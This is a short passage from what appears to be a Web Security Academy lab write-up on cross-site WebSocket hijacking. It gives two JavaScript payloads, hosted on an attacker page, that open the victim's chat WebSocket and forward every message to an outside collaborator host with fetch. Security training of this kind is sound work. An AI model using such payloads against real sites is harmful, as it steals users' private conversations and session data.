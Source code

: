 Go to collaborator tab and copy

<img src="images/image12.png" alt="third" width="600">

Now we paste it in attacker.example.net
```
<script>

  ws = new WebSocket('wss://0a6200fb03ba37db81d3251d002200a1.web-security-academy.net/chat');

  ws.onopen = function start(event) {

    ws.send("READY");

  }

  ws.onmessage = function handleReply(event) {

    fetch('https://ta7qgaxhh2gu5f7uz5e92fnk5bb2zunj.oastify.com/?'+event.data, {mode: 'no-cors'});

  }

  ws.send("Some text sent to the server");

</script>
```

**Alternative payload**
```
<script>

    var ws = new WebSocket('wss://your-websocket-url');

    ws.onopen = function() {

        ws.send("READY");

    };

    ws.onmessage = function(event) {

        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});

    };

</script>
```
